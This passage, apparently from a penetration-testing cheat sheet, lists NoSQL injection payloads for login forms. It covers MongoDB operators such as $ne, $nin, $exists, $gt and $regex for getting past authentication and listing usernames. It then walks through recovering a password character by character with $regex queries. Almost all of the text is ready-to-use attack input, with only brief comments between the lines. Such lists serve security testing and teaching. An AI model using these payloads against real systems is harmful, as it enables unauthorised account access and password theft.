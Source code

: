     # $exists: Exists in the database
    username[$exists]=true&password[$exists]=true

    # $nin: Not include
    username[$nin][admin]=admin&password[$ne]=xyz
    # If we found the "admin" exists, we can exclude "admin" by specifying $nin operator.
    username[$nin][]=admin&password[$ne]=xyz
    # If more users are found, we can exclude the user.
    username[$nin][]=admin&username[$nin][]=john&password[$ne]=xyz

    # $gt: Greater than
    username[$gt]=s&password[$gt]=s
    # $lt: Lower than
    username[$lt]=s&password[$lt]=s

    # Combinations
    username[$ne]=xyz&password[$regex]=.*
    username[$exists]=true&password[$ne]=xyz
    username[$ne]=xyz&password[$exists]=true
    username[$regex]=.*&password[$ne]=xyz
    username[$ne]=xyz&password[$regex]=.*
    username[$regex]=.{6}&password[$ne]=xyz
    ```

    After finding usernames, we can also obtain the passwords using the **“$regex”** operator as the following example.

    ```bash
    # Check if the password length is 7 characters.
    username=admin&password[$regex]=^.{7}$
    # If not, change 7 to 6 (or 8 or something number).
    username=admin&password[$regex]=^.{6}$
    # If the number of characters turns out to be 6, brute force the character one by one.
    username=admin&password[$regex]=^a.....$
    username=admin&password[$regex]=^s.....$
    username=admin&password[$regex]=^se....$
    username=admin&password[$regex]=^sec...$
    ```
